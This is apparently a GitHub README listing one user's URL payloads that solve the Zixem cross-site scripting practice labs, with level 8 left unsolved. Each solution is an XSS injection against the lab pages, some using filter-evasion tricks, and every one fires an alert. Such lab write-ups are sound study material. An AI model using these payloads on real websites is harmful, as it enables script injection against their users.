 # 🧨 Zixem XSS Challenges – Solutions

This repository contains my solutions for the [zixem_xss](https://zixem.altervista.org/XSS/) , a set of web-based labs focused on Cross-Site Scripting (XSS) exploitation techniques.

**level 1**
https://zixem.altervista.org/XSS/1.php?name=<script>alert(1337)</script>

**level 2**
https://zixem.altervista.org/XSS/2.php?name=<SCRIPT>alert(1337)</SCRIPT>

**level 3**
https://zixem.altervista.org/XSS/3.php?name=%0A <img src=w onerror=alert(1337)>

**level 4**
https://zixem.altervista.org/XSS/4.php?img=sw' onerror='alert(1337)

**level 5**
https://zixem.altervista.org/XSS/5.php?name=zxm&action=javascript:alert(1337);

**level 6**
https://www.zixem.altervista.org/XSS/6.php?name=\74img src=x onerror=alert(1337)&gt;

**level 7**
https://zixem.altervista.org/XSS/7.php?name=%253Csvg/onload=alert(1333)%253E

**level 8**
Sorry folks, I couldn't crack this level yet — still wrapping my head around it.If you’ve got this, feel free to share. I’ll update this once I figure it out.

**level 9**
https://zixem.altervista.org/XSS/9.php?name=<sVg/onload=confirm(1337)>

**level 10**
https://zixem.altervista.org/XSS/10.php?name=zxm');onerror=alert;throw1337;//
